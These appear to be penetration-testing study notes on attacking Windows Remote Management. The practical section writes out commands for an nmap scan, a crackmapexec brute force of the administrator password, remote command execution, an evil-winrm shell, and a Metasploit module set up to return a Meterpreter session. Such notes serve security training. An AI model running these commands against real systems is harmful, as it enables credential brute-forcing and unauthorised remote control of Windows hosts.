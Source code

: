 ```yaml
---
description: 5985, 5986
---
```


# 4 - Exploiting WinRM

## **Exploiting WinRM**

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways:
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called **“crackmapexec”** to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script called **“evil-winrm”** to obtain a command shell session on the target system.

### Practical Demonstration

`nmap -sV -p 5985 $ip` - scan.

`crackmapexe winrm $ip -u administrator -p /usr/share/metasploit-framework/wordlists/unix_password.txt` - Perform a brute force attack against WinRM.

#### other tools that can perform WinRM bruteforce

* Medusa
* Metasploit

We can now use \[crackmapexec] to execute arbirtary code on the victim system.

`crackmapexec winrm $ip -u administrator -p <password> -x "whoami"` - run a command with legitimate credentials. other cmds like "systeminfo".

We can use the \[evil-winrm.rb] script to gain a cmd shell.

`evil-winrm.rb -u administrator -p 'tinkerbell' -i $ip` - Obtain a shell with legitimate credentials.

We can obtain a Meterpreter Session using Metasploit

```
# 
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS $ip
set LHOST and LPORT
set FORCE_VBS true
set USERNAME adminsitrator
set PASSWORD tinkerbell
exploit
# we get a meterpreter session
getuid
sysinfo
```



